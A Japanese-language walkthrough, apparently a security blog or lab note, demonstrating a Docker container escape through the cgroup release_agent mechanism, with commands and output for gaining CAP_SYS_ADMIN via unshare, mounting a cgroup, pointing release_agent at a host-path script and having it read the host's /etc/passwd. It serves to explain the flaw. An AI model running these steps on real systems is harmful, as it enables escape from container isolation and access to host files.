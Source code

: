 ```
```

というわけで rw で cgroup をマウントできれば良い

ただし capability を確認すると CAP_SYS_ADMIN を持たないため、cgroup をマウントする権限がない

```
root@ab988587a245:/# apt update && apt install -y libcap2-bin

root@ab988587a245:/# cat /proc/self/status | grep CapEff
CapEff:	00000000a80425fb

root@ab988587a245:/# capsh --decode=00000000a80425fb
0x00000000a80425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap

root@ab988587a245:/# mount -t cgroup -o rdma cgroup /mnt
mount: /mnt: permission denied.
```

CAP_SYS_ADMIN を付与するため、user ns を作成しプロセスを立ち上げる

mount, cgroup ns を同時に作成することでマウント可能になる

マウントできれば release_agent に書き込める

```
root@ab988587a245:/# unshare -rmC bash   ← user, mount, cgroup ns を作成

root@ab988587a245:/# cat /proc/self/status | grep CapEff
CapEff:	000001ffffffffff

root@ab988587a245:/# capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,38,39,40   ← CAP_SYS_ADMIN を持つ

root@ab988587a245:/# mount -t cgroup -o rdma cgroup /mnt   ← rdma サブシステムをマウント

root@ab988587a245:/# ls /mnt
cgroup.clone_children  cgroup.procs  cgroup.sane_behavior  notify_on_release  release_agent  tasks

root@ab988587a245:/# mount | grep 'cgroup (rw'
cgroup on /mnt type cgroup (rw,relatime,rdma)
```

コンテナ内のルート (/) に、ホストの権限で実行させたいプログラムを配置

今回は /etc/passwd をコンテナ内に出力するスクリプトを作成

release_agent に設定するのはホストから見た絶対パス

```
root@ab988587a245:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

root@ab988587a245:/# echo $host_path
/var/lib/docker/overlay2/20c4102a1a817b0e564734054b876c051732c62f4993ce682508ac7cd7fcb1c6/diff   ← upperdir のパス

root@ab988587a245:/# echo "$host_path/cmd" > /mnt/release_agent

root@ab988587a245:/# echo '#!/bin/sh' > /cmd

root@ab988587a245:/# echo "cat /etc/passwd > $host_path/output" >> /cmd

root@ab988587a245:/# chmod a+x /cmd
```